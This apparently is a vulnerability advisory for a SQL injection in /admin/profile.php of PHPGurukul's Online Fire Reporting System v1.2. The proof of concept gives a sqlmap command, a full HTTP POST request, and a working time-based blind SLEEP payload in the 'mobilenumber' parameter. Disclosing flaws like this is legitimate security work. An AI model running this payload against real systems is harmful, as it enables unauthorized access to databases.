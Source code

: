 

# SQLi vulnerability in Online Fire Reporting System v1.2 of file /admin/profile.php

**vender**:

- Online Fire Reporting System

**SoftLink**:

- [Online Fire Reporting System Project in PHP- PHPGurukul](https://phpgurukul.com/online-fire-reporting-system-using-php-and-mysql/)

**Vulnerable File**

- /admin/profile.php

**Version**

- V1.2

### POC

```
sqlmap -r request.txt --level 5 --batch
```



```http
POST /admin/profile.php HTTP/1.1
Host: www.firereport.top
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Referer: http://www.firereport.top/admin/profile.php
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Origin: http://www.firereport.top
Cookie: PHPSESSID=vhqmp6o0p6p8lf7sscpqhrp6tf
Priority: u=0, i
Content-Length: 92

adminname=Admin&username=admin&email=admin%40admin.com&mobilenumber=1888888888&update=Update
```



```
---
Parameter: mobilenumber (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: adminname=Admin&username=admin&email=admin@admin.com&mobilenumber=1888888888' AND (SELECT 6253 FROM (SELECT(SLEEP(5)))zwZb)-- POPP&update=Update
---
```

![image-20250531221803766](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505312218876.png)